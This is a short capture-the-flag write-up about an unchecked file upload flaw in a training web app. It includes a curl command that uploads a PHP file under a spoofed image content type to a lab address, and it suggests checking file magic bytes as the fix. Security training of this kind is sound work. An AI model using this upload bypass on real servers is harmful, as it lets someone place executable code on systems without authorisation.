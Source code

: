 # Unchecked File Upload

## Vulnerability

In the middle of the page, there is a link `ADD IMAGE` redirecting to: `http://darkly/index.php?page=upload`.

Uploading a PNG file, give an error: `Your image was not uploaded.`
Uploading a JPG file, give a result: `/tmp/file.jpg succesfully uploaded.`

The file content itself isn't checked. Only the file name.

Uploading a file with a name not containing `jpg` BUT still having the `jpg` content-type give the flag.
```bash
$ curl \
    -F 'Upload=Upload' \
    -F "uploaded=@exploit.php;type=image/jpg" \
    -F 'MAX_FILE_SIZE=100000' \
    'http://172.17.247.121/?page=upload'
...
<h2>The flag is : ...</h2>
...
```

## Possible Fix

- Check the file magic.
